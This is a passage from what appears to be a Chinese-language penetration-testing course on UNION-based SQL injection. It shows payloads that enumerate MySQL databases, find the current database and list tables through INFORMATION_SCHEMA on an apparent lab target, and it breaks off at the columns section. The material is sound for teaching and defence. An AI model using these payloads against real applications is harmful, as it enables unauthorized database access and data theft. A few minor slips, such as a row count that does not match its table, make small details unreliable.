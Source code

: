 让我们首先在本地数据库上测试一下，看看查询是如何使用的：

```
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

我们看到`ilfreight`和`dev`数据库。

注意：前三个数据库是默认的 MySQL 数据库，并且存在于任何服务器上，因此我们通常在 DB 枚举时忽略它们。有时还有第四个“sys”数据库。

现在，让我们使用`UNION`SQL 注入执行相同的操作，负载如下：

代码：sql

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

除了默认数据库之外，我们再次看到两个数据库`ilfreight`和。`dev`让我们找出 Web 应用程序正在运行哪个数据库来检索端口数据。我们可以通过查询找到当前的数据库`SELECT database()`。我们可以像上一节中查找 DBMS 版本的方式类似地执行此操作：

```sql
cn' UNION select 1,database(),2,3-- -
```

我们看到数据库名称是`ilfreight`。然而，另一个数据库 ( `dev`) 看起来很有趣。那么，让我们尝试从中检索表。

## 表格

在从数据库转储数据之前`dev`，我们需要获取表的列表，以便使用`SELECT`语句查询它们。要查找数据库中的所有表，我们可以使用数据库`TABLES`中的表`INFORMATION_SCHEMA`。

[TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)表包含有关整个数据库中所有表的信息。该表包含多个列，但我们对`TABLE_SCHEMA`和`TABLE_NAME`列感兴趣。该`TABLE_NAME`列存储表名，而该`TABLE_SCHEMA`列则指向每个表所属的数据库。这可以类似于我们查找数据库名称的方式来完成。例如，我们可以使用以下有效负载来查找`dev`数据库中的表：

代码：sql

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

请注意我们如何将数字“2”和“3”替换为“TABLE_NAME”和“TABLE_SCHEMA”，以获取同一查询中两列的输出。

## 列

